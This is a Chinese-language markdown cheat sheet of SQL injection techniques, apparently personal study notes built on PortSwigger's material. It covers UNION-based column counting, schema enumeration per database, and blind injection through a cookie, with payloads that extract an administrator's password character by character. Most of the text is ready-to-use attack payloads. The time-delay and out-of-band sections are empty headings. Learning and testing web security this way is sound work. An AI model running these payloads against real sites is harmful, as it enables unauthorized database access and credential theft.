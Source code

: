 # SQL Injection
## 註解
* Oracle : `--comment`
* Microsoft	: `--comment` `/*comment*/`
* PostgreSQL : `--comment` `/*comment*/`
* MySQL : `#comment` `--comment` `/*comment*/` [注意: dash 後面要空一格]
## UNION Attack
### 檢測欄位數量
#### NULL
* 使用 null 個數來確認欄位數量，當成功時即為此查詢的欄位數量。
```
'UNION SELECT NULL --
'UNION SELECT NULL,NULL --
...
直到成功
```
* 在 Oracle 上，每個 SELECT 查詢都必須使用 FROM 關鍵字並指定一個有效的表。 因此可以透過 Oracle 上一個名為 dual 的內置表，來達成目的。
```
' UNION SELECT NULL FROM DUAL--
```
#### ORDER
* 使用 ORDER BY 個數來確認欄位數量，當成功時即為此查詢的欄位數量。
```
' ORDER BY 1--
' ORDER BY 2--
...
直到成功
```
### 檢測欄位類型
* 通常要我們想要得資料是字串形式，因此需要確認原本查詢的資料類型也為字串。
```
' UNION SELECT 'a',NULL,NULL--
' UNION SELECT NULL,'a',NULL--
' UNION SELECT NULL,NULL,'a'--
```
### 字串連接
* Oracle : `'foo'||'bar'`
* Microsoft : `'foo'+'bar'`
* PostgreSQL : `'foo'||'bar'`
* MySQL: `'foo'  'bar'` [注意: 這邊使用空格分隔]
## 檢測資料庫資訊
### 版本
* Oracle : `SELECT * FROM v$version`
* Microsoft, MySQL : `SELECT @@version`
* PostgreSQL : `SELECT version()`
### 資料表名稱
* Oracle : `SELECT table_name FROM all_tables`
* Microsoft, MySQL, PostgreSQL : `SELECT table_name FROM information_schema.tables`
### 欄位名稱
* Oracle : `SELECT column_name FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'`
* Microsoft, MySQL, PostgreSQL : `SELECT column_name FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`
## Bind SQL Injection
### 觸發條件回應
#### 情境
* 網站透過 cookie 來檢查使用者狀況(有SQLi漏洞)，正常情況會在網頁上呈現 Welcome back。
* Request:
```
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
```
* SQL Query
```
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```
#### 作法
* 透過下列條件，如果條件為 True ('1'='1')，網站會回應 Welcome back，反之 False ('1'='2') 則不會回應 Welcome back。由此可判斷 True 或 False。
```
...xyz' AND '1'='1
...xyz' AND '1'='2
```
#### 取得密碼
* 有了上述方法來判斷 True/False，我們可以進一步檢查密碼長度與密碼。
* 修改 `LENGTH(password)>數字`，檢查密碼長度。
```
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```
* 修改 `SUBSTRING(password,1,1) ... ='a'`，將密碼一個一個字拚湊出來。
```
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```
### 觸發 SQL 錯誤
#### 情境
* 這次的情境是，用前面所提的觸發條件注入，但結果是沒有什麼變化，因此我們將透過觸發 SQL 錯誤，導致回應為 Internal Server Error (500)，來辨別 True 或 False。
#### 作法
* 透過 `SELECT CASE WHEN (條件)`，來決定是否觸發 1/0 ，來觸發SQL錯誤，進一步得知注入的結果是 True 或 False。
```
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```
#### 取得密碼
* 有了上述方法來判斷 True/False，我們可以進一步檢查密碼長度與密碼。
* 修改 `LENGTH(password)>數字`，檢查密碼長度。
```
xyz' AND (SELECT CASE WHEN (LENGTH(password)>1) THEN 1/0 ELSE 'a' END FROM users WHERE username='administrator')='a
```
* 修改 `SUBSTRING(password, 1, 1)='a'`，將密碼一個一個字拚湊出來。
```
xyz' AND (SELECT CASE WHEN (SUBSTRING(password, 1, 1)='a') THEN 1/0 ELSE 'a' END FROM users WHERE username='administrator')='a
```
### 觸發時間延遲
### out-of-band (OAST) 技術
## 參考資料
* [portswigger sqli cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
###### tags: `web security`